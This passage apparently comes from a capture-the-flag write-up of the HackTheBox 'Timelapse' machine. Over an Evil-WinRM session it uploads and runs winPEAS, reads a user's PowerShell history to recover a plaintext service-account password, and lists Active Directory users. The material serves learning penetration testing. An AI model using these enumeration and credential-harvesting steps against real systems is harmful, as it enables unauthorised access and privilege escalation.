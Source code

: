 We can use our connected session to upload the file:

```text
*Evil-WinRM* PS C:\Users\legacyy\Documents> upload /root/htb/timelapse/winPEAS.bat
Info: Uploading /root/htb/timelapse/winPEAS.bat to C:\Users\legacyy\Documents\winPEAS.bat
Enter PEM pass phrase:
Data: 47688 bytes of 47688 bytes copied
Info: Upload successful!
```

The bat file runs but the output is a little messy. Even so, looking through we find a number of interesting things:

```text
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEAS.bat

<SNIP>
HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
[i] Active if "1"

<SNIP>
Checking PS history file
 Volume in drive C has no label.
 Volume Serial Number is 22CC-AE66
 Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
03/04/2022  12:46 AM               434 ConsoleHost_history.txt
               1 File(s)            434 bytes
               0 Dir(s)   6,101,368,832 bytes free
```

The ConsoleHost_history.txt file contains commands run by the user we are connected as:

```text
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Enter PEM pass phrase:
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

It's one of the many files to check, as noted on the [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools) cheat-sheet. From that we have a new user svc_deploy and a password. We also see they looked at all the users in AD, a quick check shows there quite a few:

```text
*Evil-WinRM* PS C:\Users\legacyy\Documents> get-aduser -filter * | select samaccountname
Enter PEM pass phrase:

samaccountname
--------------
Administrator
Guest
krbtgt
thecybergeek
payl0ad
legacyy
sinfulz
babywyrm
```